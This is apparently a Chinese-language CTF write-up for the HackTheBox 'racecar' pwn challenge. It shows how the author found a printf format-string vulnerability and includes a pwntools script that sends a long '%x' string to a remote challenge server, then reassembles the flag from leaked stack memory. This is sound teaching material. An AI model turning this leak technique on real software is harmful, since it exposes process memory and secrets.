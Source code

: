 ```yaml
---
layout: post
title: "hackbox pwn racecar wp"
date:   2022-3-10
tags: [ctf_wp]
comments: true
author: wsxk
---
```


### 1.运行
拿到文件，当然是先让他跑起来看看会发生什么

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/1.png)

看起来是跑车小游戏

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/2.png)

显然选项2才正常开始游戏

接下来让你选择车型，赛道

当我选完1车型 2赛道后，出现了奇怪的东西

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/3.png)

打不开flag.txt

有点意思，这时候我们可以创建一个flag.txt然后往里面输点东西

之后出现的情况是下面这样的

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/4.png)

### 2.分析程序

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/5.png)

哦吼，看到了printf函数的格式化字符串漏洞

稍微调试一下

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/6.png)

然后看下格式化字符串出现的东西

![](https://raw.githubusercontent.com/wsxk/wsxk_pictures/main/2022-3-10-hackbox-pwn-racecar/7.png)


第11个就是我们输入的flag的4个字节啦

### 3.exp编写
编写exp有些值得质疑的点，比如收到的%x-%x...形式的字符串
需要去首尾空格，然后看看分片

用binascii库的 a2b_hex时，顺序的反的，需要倒过来



    from pwn import *
    from binascii import a2b_hex

    #io = process("./racecar")
    io = remote("178.128.168.198",30254)

    io.recvuntil("Name:")
    io.sendline("wsxk")
    io.recvuntil("Nickname:")
    io.sendline("wsxk")

    io.recvuntil("Car selection")
    io.sendline(str(2))
    io.recvuntil("Select car:")
    io.sendline(str(1))

    io.recvuntil("Select race:")
    io.sendline(str(2))

    io.recvuntil("Do you have anything to say to the press after your big victory?")
    io.sendline("%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x-%x")

    io.recvuntil("The Man, the Myth, the Legend! The grand winner of the race wants the whole world to know this:")
    io.recvline()
    return_strings=io.recvline()
    #print(return_strings)

    flag = (bytes(return_strings).strip()).rsplit(b"-")
    print(flag)
    true_flag = b""
    for i in range(11,len(flag)):
        if len(flag[i])%2:
            flag[i] = b'0'+flag[i]
        #print(a2b_hex(flag[i])[::-1])
        true_flag += a2b_hex(flag[i])[::-1]
        if b"}" in true_flag:
            break
    print(true_flag)

